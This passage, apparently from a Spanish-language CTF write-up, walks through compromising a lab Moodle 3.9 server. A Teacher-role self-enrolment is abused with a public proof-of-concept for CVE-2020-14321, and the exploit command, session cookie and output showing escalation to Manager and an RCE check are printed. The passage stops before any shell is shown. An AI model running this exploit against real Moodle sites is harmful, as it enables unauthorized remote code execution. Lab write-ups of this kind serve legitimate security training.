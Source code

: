 ```bash
last-modified   : Mon, 25 Apr 2022 13:50:09 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...


Vulnerabilities found: 0

Scan completed.
```

El escaneo no nos dio nada, era una plataforma `Moodle` normal, así que comenzamos la fase de reconocimiento con una cuenta creada por nosotros mismos. Y encontramos un curso con el nombre "--Solo profesores--"("--Teachers Only--") y una Autoinscripción con el rol de Profesor dentro de ese curso. Era extraño, así que una búsqueda rápida en Google nos dio el siguiente paso.

![teacher_role](teacher_role.png)

## Acceso inicial - Usuario

Descubrimos que para `Moodle versión 3.9` hay un exploit RCE si tiene el rol de Profesor. (CVE-2020-14321).

¡Y teníamos ese rol!

Así que descargamos el exploit desde [aquí](https://github.com/HoangKien1020/CVE-2020-14321) y lo ejecutamos contra la máquina.

```bash
╰─ python3 exploit_mo.py -url http://10.10.93.142:9020/moodle/ -cookie=darsatmvtl2kanukccuur10den -cmd=ls                                                                                                ─╯
                           ***CVE 2020 14321***
    How to use this PoC script
    Case 1. If you have vaid credentials:
    python3 cve202014321.py -u http://test.local:8080 -u teacher -p 1234 -cmd=dir
    Case 2. If you have valid cookie:
    python3 cve202014321.py -u http://test.local:8080 -cookie=37ov37abn9kv22gj7enred9bl7 -cmd=dir

[+] Your target: http://10.10.93.142:9020/moodle/
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
```